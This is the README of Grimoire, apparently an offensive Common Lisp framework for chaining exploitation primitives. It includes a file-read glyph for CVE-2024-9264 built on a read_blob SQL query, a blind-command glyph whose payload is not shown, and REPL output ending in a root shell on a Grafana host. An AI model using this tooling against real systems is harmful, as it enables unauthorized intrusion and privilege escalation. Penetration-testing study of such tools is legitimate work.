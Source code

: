 # Grimoire

<p align="center">
  <img src="https://github.com/user-attachments/assets/127f9116-e1d9-4ccc-9c22-ee17c3afda75"/>
</p>

<p align="center">
  A collection of utilities designed to facilitate reconnaissance, exploitation, persistence, and privilege escalation (only for educational purposes).
</p>

## Installation

To use Grimoire, clone the repository to your local machine.

```bash
$ git clone https://github.com/solanav/grimoire
```

After that, launch your common lisp environment (be it Lem, Emacs or any other IDE) and load Grimoire with:

```lisp
CL-USER> (ql:quickload :grimoire)
```
    
You should then enter the package and start working on the system itself, rather than using it from another package:
    
```lisp
CL-USER> (in-package :grimoire)
```
    
## Concepts

- **Glyphs**: Created using `define-glyph`. They expose some type of operation to the framework such as reading files (:SIGHT) , code executeion (:COMMAND), blind code execution (:SIGHTLESS-COMMAND), file uploads (:MARK), etc.

- **Spells**: Created using `define-spell`. They use the glyphs available to do interesting or useful operations on the objective. For example, the spell `download-all` allows the user to download all files in a given remote path if the glyph :COMMAND is available to Grimoire.
    
- **Transmutations**: Created using `define-transmutation`. They allow Grimoire to derive new glyphs from already implemented ones. For example, if you have both the :SIGHT and :SIGHTLESS-COMMAND glyphs, you will be able to derive the :COMMAND through a transmutation.
    
- **Relics**: Managed through the functions starting with `relic/*`. A basic and global key-value store.

## Usage

Once you have Grimoire loaded, you can start using its utilities. First you should find an entry point to the system you are trying to exploit.

If you find a way of reading files in the remote server for example, you can create a function called `CVE-2024-9264` that reads files from the remote server:

```lisp
(define-glyph :sight CVE-2024-9264 (file)
  (let* ((text (str:replace-all
                "\\x0A" (fmt "~%")
                (send-request-to-vulnerable-server
                 (fmt "SELECT content FROM read_blob(\"~a\")"
                      file))))
         (text-len (1- (length text))))
    (if (plusp text-len)
        (subseq text 0 text-len)
        "")))
```

Grimoire now unlocks a bunch of spells that you can use to progress further, for example:

```lisp
GRIMOIRE> (all-users)
("root" "daemon" "bin" "sys" "sync" "games" "man" "lp" "mail"
 "news" "uucp" "proxy" "www-data" "backup" "list" "irc" "gnats"
 "nobody" "_apt" "grafana")

GRIMOIRE> (system-info)
(("PRETTY_NAME" . "Ubuntu 22.04.4 LTS")
 ("NAME" . "Ubuntu") 
 ("VERSION_ID" . "22.04")
 ("VERSION" . "22.04.4 LTS (Jammy Jellyfish)")
 ("VERSION_CODENAME" . "jammy") 
 ("ID" . "ubuntu")
 ("ID_LIKE" . "debian")
 ("HOME_URL" . "https://www.ubuntu.com/")
 ("SUPPORT_URL" . "https://help.ubuntu.com/")
 ("BUG_REPORT_URL" . "https://bugs.launchpad.net/ubuntu/")
 ("PRIVACY_POLICY_URL" . "https://.../privacy-policy")
 ("UBUNTU_CODENAME" . "jammy"))
```
    
If you now create another glyph to do blind execution of code:

```lisp
(define-glyph :sightless-command CVE-2024-9264 (command)
  (send-request-to-vulnerable-server
   (fmt *exploit* command)))
```
    
So now if we check our current glyphs:
```lisp
GRIMOIRE> (glyph/info)
[+] Glyph "SIGHT"
Provided by "#<FUNCTION SIGHT/CVE-2024-9264>"

[+] Glyph "SIGHTLESS-COMMAND"
Provided by "#<FUNCTION SIGHTLESS-COMMAND/CVE-2024-9264>"
```
    
Now we should check if we have any interesting transmutations to expand our glyphs.

Running `transmutation/info` will yield:
```lisp
GRIMOIRE> (transmutation/info)
[+] Transmutation "CAT"
Runnable? [NO] (needs :COMMAND)
Needed?   [NO] (provides :SIGHT)

[+] Transmutation "LET-THERE-BE-LIGHT"
Runnable? [YES] (needs :SIGHT, :SIGHTLESS-COMMAND)
Needed?   [YES] (provides :COMMAND)
```
    
So lets run the first transmutation in the REPL:
```lisp
GRIMOIRE> (transmutation/run :let-there-be-light)
[+] Added new glyph: :COMMAND
```

So lets test it with the `fake-shell` spell:
```lisp
GRIMOIRE> (fake-shell)
[/usr/share/grafana]$ ls
LICENSE
bin
conf
public

[/usr/share/grafana]$ whoami
root

[/usr/share/grafana]$ exit
```
    
You can always run `(info)` to see the state of the system:
```lisp
================== ~* SPELLS ~* ==================

[+] Spell "SYSTEM-INFO"
    Runnable? [YES] (needs :SIGHT)

[+] Spell "ALL-USERS"
    Runnable? [YES] (needs :SIGHT)

[+] Spell "USERS"
    Runnable? [YES] (needs :SIGHT)

[+] Spell "FLAG"
    Runnable? [YES] (needs :SIGHT)

============== ~> TRANSMUTATIONS ~> ==============

[+] Transmutation "CAT"
    Runnable? [NO] (needs :COMMAND)
    Needed?   [NO] (provides :SIGHT)

[+] Transmutation "LET-THERE-BE-LIGHT"
    Runnable? [YES] (needs :SIGHT, :SIGHTLESS-COMMAND)
    Needed?   [YES] (provides :COMMAND)

================== <> GLYPHS <> ==================

[+] Glyph "SIGHT"
    Provided by "#<FUNCTION SIGHT/CVE-2024-9264>"

[+] Glyph "SIGHTLESS-COMMAND"
    Provided by "#<FUNCTION SIGHTLESS-COMMAND/CVE-2024-9264>"

==================================================
```

## Roadmap

In no particular order:
    
- [ ] Add mark (write) utilities to Grimoire.
- [ ] Package Grimoire with Lem so it can be used as a standalone tool.
- [ ] Add an easy way to create POCs and export them so Grimoire can use them.
- [ ] Add a graph like representation of glyphs and how they can be chained together.
- [ ] Add a way to easily share glyphs with other users.
- [ ] Add logging.
- [ ] Add a way to easily create a report of the pentest.
- [ ] Add some testing of new glyphs and spells so we can even make transmutations automatic.
    
- [x] Add a deployable binary for persistance.
- [x] Add command (exec) utilities to Grimoire.
- [x] Add sight (read) utilities to Grimoire.
- [x] Add some kind of database to store relics and other stuff.

